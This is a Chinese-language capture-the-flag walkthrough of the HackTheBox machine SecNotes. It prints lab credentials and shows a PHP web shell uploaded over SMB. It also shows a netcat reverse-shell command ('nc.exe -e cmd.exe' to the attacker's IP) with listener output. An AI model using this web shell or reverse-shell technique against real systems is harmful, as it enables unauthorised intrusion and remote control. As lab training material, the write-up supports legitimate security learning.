

# 信息搜集

## Nmap

```sh
root@kali# nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.97
...
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
...
root@kali# nmap -sC -sV -p 80,445,8808 -oA nmap/details 10.10.10.97
...
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h32m28s, deviation: 4h37m09s, median: -7m32s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2019-01-13T09:01:07-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-01-13 12:01:08
|_  start_date: N/A
...
```

## WebSite - TCP 8808

此站点似乎只有 IIS 默认页面：


## WebSite - TCP 80

访问该网站时，我们被重定向到/login.php，之后发现可以注册一个用户，并使用该用户登录，重定向到/home.php。


我们也可以尝试SQL注入绕过。


注册新的账号进入查看网站内容，给出提示存在注入，尝试使用SQL注入


重新注册一个账号尝试注入，获取到账号密码与域名：
用户：tyler
密码：92g!mA8BGjOirkL%OG*&


# 漏洞扫描与探测

通过之前端口扫描得知445端口开放了smb服务，使用smbclient进行登录。

```
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' \\\\10.129.62.186\\new-site
```

> smbclient使用教程：https://cloud.tencent.com/developer/article/2393256
> 
> -U <用户名称>：指定用户名称；


其中的照片是8808端口在使用。

## shell权限

通过SMB上传文件。

```
root@kali# echo test > hypnotic.txt
...
smb: \> put hypnotic.txt
putting file hypnotic.txt as \hypnotic.txt (1.2 kb/s) (average 0.6 kb/s)
...
root@kali# curl http://10.10.10.97:8808/hypnotic.txt
test
```

接下来通过上传恶意脚本进行提权.

```
root@kali# cat /opt/shells/php/cmd.php 
<?php system($_REQUEST['cmd']); ?>

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php hypnotic.php'
putting file /opt/shells/php/cmd.php as \hypnotic.php (0.5 kb/s) (average 0.5 kb/s)

root@kali# curl http://10.10.10.97:8808/hypnotic.php?cmd=whoami
secnotes\tyler
```

现在我们有代码执行的功能。

首先找到一份副本 nc 并将其放到磁盘上：

```
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe'
putting file /opt/shells/netcat/nc.exe as \nc.exe (359.2 kb/s) (average 359.2 kb/s)
```

接下来，调用它来取回一个 shell：

```
root@kali# curl "http://10.10.10.97:8808/hypnotic.php?cmd=nc.exe+-e+cmd.exe+10.10.14.15+443"
```

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49738.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
secnotes\tyler
```

# 权限提升

在C:\Distros\Ubuntu目录下发现ubuntu.exe


尝试进行利用执行bash.exe
成功提权



获取交互式shell
查看.bash_history文件


发现管理员账号与密码使用该账号登录smb服务，发现root.txt将其下载到kali中进行查看

